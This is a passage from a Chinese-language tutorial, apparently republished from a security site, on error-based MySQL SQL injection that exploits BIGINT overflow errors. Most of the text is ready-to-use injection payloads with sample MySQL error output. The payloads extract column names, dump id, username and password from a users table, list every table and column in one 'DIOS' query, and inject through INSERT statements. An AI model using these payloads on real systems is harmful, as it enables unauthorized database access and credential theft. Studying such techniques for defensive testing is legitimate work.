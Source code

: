 取得列名：

```
select !(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x)-~0;

```

检索数据：

```
!(select*from(select concat_ws(':',id, username, password) from users limit 0,1)x)-~0;

```

![enter image description here](http://drops.javaweb.org/uploads/images/d199fdfe6dbba7d7352e813eef4ed44bcebaba07.jpg)

0x004 一次性转储
=====

我们能够一次性转储所有数据库、列和数据表吗？ 答案是肯定的。但是，当我们从所有数据库中转储数据表和列的时候，只能得到较少的结果，毕竟我们是通过错误消息来检索数据的。 不过，如果我们是从当前数据库中转储数据的话，一次最多可以转储27个结果。下面举例说明。

```
!(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x)-~0
(select(!x-~0)from(select(concat (@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat (@,0xa,table_name,0x3a3a,column_name)),@))x)a)
(select!x-~0.from(select(concat (@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat (@,0xa,table_name,0x3a3a,column_name)),@))x)a)

```

![enter image description here](http://drops.javaweb.org/uploads/images/d240884f88f6930b7d006daa66b8bd0b650f402a.jpg)

这些限制了我们可以检索的结果的数量，即最多27个。假设，我们在一个数据库中创建了一个31列的数据表。 那么，我们只能看到27个结果，而我的其他4个表和该用户数据表的其他列都无法返回。

![enter image description here](http://drops.javaweb.org/uploads/images/50fa947f403f0144de73c43d1d6354401cc23648.jpg)

0x05 利用插入语句进行注入
=====

利用插入语句，我们也可以进行类似的注入攻击，具体语法为`‘’ or (payload) or “”`。

```
mysql> insert into users (id, username, password) values (2, '' or !(select*from(select user())x)-~0 or '', 'Eyre');
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost' from dual))) - ~(0))'

```

我们还可以使用DIOS查询。

```
insert into users (id, username, password) values (2, '' or !(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x)-~0 or '', 'Eyre');
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
newdb::users::id
newdb::users::username
newdb::users::password' from dual))) - ~(0))'

```
